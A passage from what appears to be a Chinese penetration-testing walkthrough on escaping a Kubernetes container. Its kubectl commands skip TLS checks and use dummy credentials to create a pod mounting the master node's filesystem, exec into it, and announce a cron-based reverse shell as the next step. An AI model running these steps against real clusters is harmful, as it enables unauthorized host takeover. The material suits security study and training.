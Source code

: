 ```yaml
```
> key: 污点名字
>
> image: 镜像名字
>
> mountPath: 挂载路径
>
> name pod: Docker 名字

<div align=center><img width="600" src="/img/image-20231015165543526.png" div align=center/></div></br>

使用接口下发任务到机器

```shell
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a create -f ./x.yaml #执行的命令
```

<div align=center><img width="1000" src="/img/image-20231015165741873.png" div align=center/></div></br>

查看 pod 节点信息

```shell
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a get pods -o wide
get pods -o #wide执行的命令
```

并没节点 master 机器

<div align=center><img width="1000" src="/img/image-20231015190736262.png" div align=center/></div></br>

坑点: 我下发了几发现都失败，而且需要挂载到 master 节点机器上面，需要多次创建，而且创建的时候name需要名字不一样

我这里创建了三次，第四次才成功

<div align=center><img width="1000" src="/img/image-20231015190947067.png" div align=center/></div></br>

执行命令

````shell
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a exec control-master-x231 -- bash -c "ls /master"
````

> `control-master-x231` 是 master 节点 pod 名字
>
> `-c` 后是所要执行的命令
>
> `/master` 是挂载的路径


这里使用挂载逃逸可以逃逸到真实机器

<div align=center><img width="1000" src="/img/image-20231015191205567.png" div align=center/></div></br>

然后我们直接写入计划任务进行反弹 Shell
